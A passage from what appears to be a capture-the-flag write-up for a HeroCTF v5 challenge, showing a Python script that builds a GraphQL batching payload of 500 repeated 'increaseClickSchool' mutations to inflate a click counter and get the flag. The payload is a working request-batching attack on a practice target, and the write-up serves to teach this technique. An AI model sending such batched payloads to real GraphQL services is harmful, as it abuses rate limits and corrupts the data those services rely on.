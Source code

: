 Oh!! it works!!

**Now, let's copy those mutation query more than 1337 times, and we should able to get the flag!**

**Generating payload Python script:**
```py
#!/usr/bin/env python3

if __name__ == '__main__':
    batchingPayload = '''{"query":"mutation { increaseClickSchool(schoolName: \\"Flag CyberSecurity School\\"){schoolId, nbClick} }"},'''
    lastBatchingPayload = '''{"query":"mutation { increaseClickSchool(schoolName: \\"Flag CyberSecurity School\\"){schoolId, nbClick} }"}'''
    print(f'[{batchingPayload * 499}{lastBatchingPayload}]')
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513135037.png)

